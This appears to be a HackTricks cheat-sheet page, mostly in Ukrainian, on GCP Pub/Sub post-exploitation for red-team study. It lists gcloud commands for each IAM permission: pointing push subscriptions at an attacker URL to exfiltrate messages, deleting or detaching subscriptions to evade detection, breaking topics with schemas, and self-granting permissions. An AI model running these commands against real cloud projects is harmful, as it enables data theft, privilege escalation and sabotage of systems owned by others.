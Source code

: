 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Для отримання додаткової інформації про Pub/Sub перегляньте наступну сторінку:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Опублікуйте повідомлення в темі, корисно для **відправки несподіваних даних** та активації несподіваних функцій або експлуатації вразливостей:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.\
Можливо видалити тему, навіть якщо до неї прикріплені підписки.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Використовуйте цей дозвіл, щоб оновити деякі налаштування теми, щоб порушити її, такі як `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Надайте собі дозвіл виконувати будь-які з попередніх атак.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Отримайте всі повідомлення на веб-сервері:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Створіть підписку та використовуйте її для **витягування повідомлень**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Видалення підписки** може бути корисним для порушення системи обробки журналів або чогось подібного:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Використовуйте цей дозвіл, щоб оновити деякі налаштування, щоб повідомлення зберігалися в місці, до якого ви можете отримати доступ (URL, таблиця Big Query, Bucket) або просто щоб порушити це.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Атакуйте схему на тему, щоб повідомлення не відповідали їй, і, отже, тема була порушена.\
Якщо немає жодних схем, можливо, вам потрібно буде створити одну.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Це може виглядати як видалення схеми, але ви зможете надсилати повідомлення, які не відповідають схемі. Однак, оскільки схема буде видалена, жодне повідомлення насправді не потрапить у тему. Тож це **БЕЗГЛУЗДО**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Це створить знімок усіх не підтверджених повідомлень і поверне їх назад до підписки. Не дуже корисно для атакуючого, але ось це:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

